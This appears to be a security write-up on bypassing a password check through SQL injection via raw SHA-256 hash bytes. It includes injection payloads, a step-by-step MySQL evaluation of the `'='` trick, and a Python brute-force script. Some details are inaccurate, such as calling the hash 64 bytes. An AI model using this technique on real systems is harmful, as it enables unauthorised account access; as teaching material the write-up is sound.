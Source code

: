 The idea of the attack is to find a legitimate password value whose raw bytes of the password's SHA-256 hash contain the characters to perform our SQL injection.
So in consecutive order, the raw bytes of the hash result need to encode to the payload `' OR '1'='1`. This naive approach to inject the SQL statement results in a payload of 11 bytes. Finding the input to which the exact set of bytes as a result of the SHA-256 hash contains our 10 bytes is too expensive and takes thousands of years to calculate on my laptop.

We can shorten our malicious payload in multiple ways:
* The spaces are not all necessarily required, such that the payload `'OR'1'='1` would suffice: 8 bytes
* The statement `'1'='1` aids to evaluate the or-clause to true. `'OR'1` would also suffice: 5 bytes
..* Other characters might also do the job, for example `OR` and `||` are equivalent in mysql
..* It turns out that any number `[1-9]` evaluates to true MySQL

Simple mathematic shows that even 5 bytes of the hash result may take days to determine the corresponding input. After playing around with MySQL statement evaluation we came to the conclusion that we are able to find a 3 byte long injection payload: `'='`. This payload evaluates the password part of the SQL statement to true in the following way:

* `SELECT * FROM user_accounts where email='xx@yy.zz' and pw='[injection]'` (The way we want to attack the website)
* `SELECT * FROM user_accounts where email='xx@yy.zz' and pw=''=''` (injecting our payload)
* `SELECT * FROM user_accounts where email='xx@yy.zz' and (pw='')=''` (mysql evaluates the first expression)
* `SELECT * FROM user_accounts where email='xx@yy.zz' and false=''` (since the password hash stored in the database is not empty, the expression before evaluates to false)
* `SELECT * FROM user_accounts where email='xx@yy.zz' and (false='')` (comparing whether false is equal to the empty string)
* `SELECT * FROM user_accounts where email='xx@yy.zz' and (true)` (specifically for mysql, the empty is equal to the false boolean)

The payload we will generate by the hash function cannot solely be the three character sequence `'='`, because the hash function returns a hash with a length of 64 bytes. Luckily for us, almost any set of bytes on both sides of the sequence will work since `pw='random1'='random2'` evaluates to `false='random2'`. Specifically for MySQL any string will be interpreted as false if the string is `0` or starts with non ASCII bytes.

### Finding the password ###

The following python script quickly loops through a number of passwords and checks if the SHA-256 hash value of the password contain our payload, since they can potentially be a password that successfully injects our payload in the SQL statement. Note that for clarity we only looped through the numbers 0 to 10 million however, we could also search for clear text passwords that contain other ASCII characters. 


```python
import hashlib
import datetime

start = datetime.datetime.now()
for i in range(10000000):
	hash = hashlib.sha256(str(i)).digest()
	if hash.find("'='") != -1:
		print "Found: %d => %s" % (i,hash)
		print (datetime.datetime.now() - start)
```
                